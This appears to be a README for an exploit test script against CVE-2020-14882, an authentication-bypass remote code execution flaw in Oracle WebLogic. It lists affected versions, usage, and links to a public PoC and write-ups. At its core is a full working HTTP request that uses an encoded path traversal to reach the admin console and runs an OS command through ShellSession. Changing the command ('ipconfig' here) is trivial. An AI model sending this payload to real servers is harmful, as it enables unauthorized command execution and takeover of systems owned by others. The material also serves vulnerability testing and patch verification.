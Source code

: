 # (CVE-2020–14882) Weblogic Unauthorized bypass RCE
(CVE-2020-14882) Oracle Weblogic Unauthorized bypass RCE test script
Requests

    POST /console/images/%252E%252E%252Fconsole.portal HTTP/1.1
    Host: <Target IP>
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-type: application/x-www-form-urlencoded; charset=utf-8
    Content-Length: 128

    _nfpb=false&_pageLable=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('ipconfig');");
    
Test script checks response data with pcre. 

# Usage 
    - 7001/tcp (WebLogic default port) 
    Oracle Weblogic Auth Bypass RCE(CVE-2020–14882).py <Target IP>
    
    - specific port/tcp 
      Oracle Weblogic Auth Bypass RCE(CVE-2020–14882).py <Target IP> <port>
# Affected Version 
WebLogic 10.3.6.0.0
WebLogic 12.1.3.0.0
WebLogic 12.2.1.3.0
WebLogic 12.2.1.4.0
WebLogic 14.1.1.0.0

# PoC 
https://github.com/jas502n/CVE-2020-14882

# reference 
https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf
https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild
